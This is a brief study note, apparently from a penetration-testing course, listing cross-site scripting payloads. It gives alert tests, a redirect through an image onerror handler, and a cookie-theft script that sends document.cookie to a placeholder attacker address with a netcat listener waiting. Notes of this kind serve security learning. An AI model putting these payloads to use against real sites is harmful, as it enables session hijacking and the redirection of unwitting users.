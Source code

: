 ```yaml
---
title: XSS INJECTION
updated: 2023-10-04 13:37:35Z
created: 2023-10-02 12:12:57Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```


# XSS INJECTION

1.  If you can enter a note, try:  
    `<script>prompt(1)</script>`  
    `<img src=x onerror="prompt(1)">`

2. Use a redirect:
`<img src=x onerror="location.href='https://tcm-sec.com'">`

3. Capture a cookie:
On hacker machine: `nc -lnvp 4444`
`<script>new Image().src='http://<hacker IP>:4444/?cookie=' + encodeURI(document.cookie);</script>`